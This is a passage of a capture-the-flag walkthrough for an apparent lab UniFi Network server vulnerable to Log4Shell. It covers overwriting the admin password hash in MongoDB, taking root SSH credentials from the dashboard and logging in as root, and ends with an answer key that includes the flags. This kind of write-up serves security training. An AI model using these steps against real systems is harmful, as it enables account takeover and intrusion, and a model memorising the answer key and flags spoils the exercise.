       1. First lets get the exact user & field we will be updating
         1. "_id" : ObjectId("61ce278f46e0fb0012d47ee4") and the field is "x_shadow"
            1. {"_id": ObjectId("61ce278f46e0fb0012d47ee4")},{$set:{"x_shadow":"$6$pqrVNIxxme1DguoI$LFSd6kIdj1tM8q.0BCu1y9xvOeS.uHcf04oCJbxrgA0RToUSOfZtvKAJ9U..ukRwTWABaERrFPIgZdEZj/T0O."}}
      2. > db.admin.update({"_id": ObjectId("61ce278f46e0fb0012d47ee4")},{$set:{"x_shadow":"$6$pqrVNIxxme1DguoI$LFSd6kIdj1tM8q.0BCu1y9xvOeS.uHcf04oCJbxrgA0RToUSOfZtvKAJ9U..ukRwTWABaERrFPIgZdEZj/T0O."}})
   5. HTTP
      1. Now go back to the webpage and login with the admin account
         1. SUCCESS!
      2. We now see web-dashboard
      3. Lets look around
         1. Going to settings -> site
            1. In here we see a section "Enable SSH Authentication"
               1. UN: root
               2. PW: NotACrackablePassword4U2022
               3. So lets try ssh'ing in as ROOT
8. SSH
   1. > ssh root@10.129.239.238 
      1. PW: NotACrackablePassword4U2022
      2. SUCCESS!
   2. Get root flag
      1. > cat root.txt
         1. FLAG: `e50bc93c75b634e4b272d2f771c33681`

## QUESTIONS

1. Which are the first four open ports?
   1. `22, 6789, 8080, 8443`
2. What is the title of the software that is running running on port 8443?
   1. `UniFi Network`
3. What is the version of the software that is running?
   1. `6.4.54`
4. What is the CVE for the identified vulnerability?
   1. `CVE-2021-44228`
5. What protocol does JNDI leverage in the injection?
   1. `LDAP`
6. What tool do we use to intercept the traffic, indicating the attack was successful?
   1. `tcpdump`
7. What port do we need to inspect intercepted traffic for?
   1. `389`
8. What port is the MongoDB service running on?
   1. `27117`
9.  What is the default database name for UniFi applications?
    1. `ace`
10. What is the function we use to enumerate users within the database in MongoDB?
    1. `db.admin.find()`
11. What is the function we use to update users within the database in MongoDB?
    1. `db.admin.update()`
12. What is the password for the root user?
    1. `NotACrackablePassword4U2022`
13. Submit user flag
    1. `6ced1a6a89e666c0620cdb10262ba127`
14. Submit root flag
    1. `e50bc93c75b634e4b272d2f771c33681`
